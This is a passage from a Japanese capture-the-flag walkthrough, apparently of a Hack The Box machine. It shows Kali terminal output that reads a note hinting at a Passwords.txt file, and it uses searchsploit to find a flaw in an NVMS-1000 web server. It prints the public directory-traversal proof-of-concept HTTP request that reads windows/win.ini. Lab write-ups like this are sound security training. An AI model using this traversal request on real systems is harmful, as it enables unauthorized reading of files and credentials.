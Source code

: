 
```
kali@kali:~$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.
Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadinekali@kali:~$ 

日本語訳(DeepL)
デスクトップにPasswords.txtファイルを残してしまいました。
ご自身で編集されたら削除して、安全なフォルダに戻してください。
```

このことから、おそらくusers/Nathan/Desktop/Passwords.txtのようなディレクトリにパスワードファイルが置かれていることが推測できます。


# 侵入
Webサーバが動作していることが分かっているので、http\://10.10.10.184にアクセスしてみます。
![e.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b81975aa-629d-7d87-21ff-cabdeabe259f.png)

先ほどのNotes to do.txtにも記載されていたNVMS-1000というものが動作していることが分かります。　　
searchsploitでNVMSを検索してみましょう。　　

```
kali@kali:~$ searchsploit nvms
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                        | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Mo | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow     | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                    | hardware/webapps/48311.py
------------------------------------------------------- ---------------------------------
```

どうやらディレクトリトラバーサルの脆弱性があるようです。hardware/webapps/47774.txtを閲覧してみましょう。

```
kali@kali:~$ searchsploit -x hardware/webapps/47774.txt

# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan T<C3><BC>rle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
```